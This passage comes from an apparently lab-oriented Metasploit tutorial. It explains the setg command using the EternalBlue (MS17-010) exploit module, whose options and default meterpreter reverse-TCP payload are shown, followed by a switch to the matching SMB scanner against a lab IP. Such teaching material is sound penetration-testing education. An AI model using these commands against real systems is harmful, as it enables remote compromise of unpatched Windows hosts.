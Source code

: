 Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

The ```setg``` command

You can use the ```setg``` command to set values that will be used for all modules. The setg command is used like the set command. The difference is that if you use the set command to set a value using a module and you switch to another module, you will need to set the value again. The setg command allows you to set the value so it can be used by default across different modules. You can clear any value set with setg using unsetg.



The example below uses the following flow;

1. We use the ms17_010_eternalblue exploitable
2. We set the RHOSTS variable using the setg command instead of the set command
3. We use the ```back``` command to leave the exploit context
4. We use an auxiliary (this module is a scanner to discover MS17-010 vulnerabilities)
5. The ```show options``` command shows the ```RHOSTS``` parameter is already populated with the IP address of the target system.

```

Navigating modules
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > back
msf6 > use auxiliary/scanner/smb/smb_ms17_010 
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):
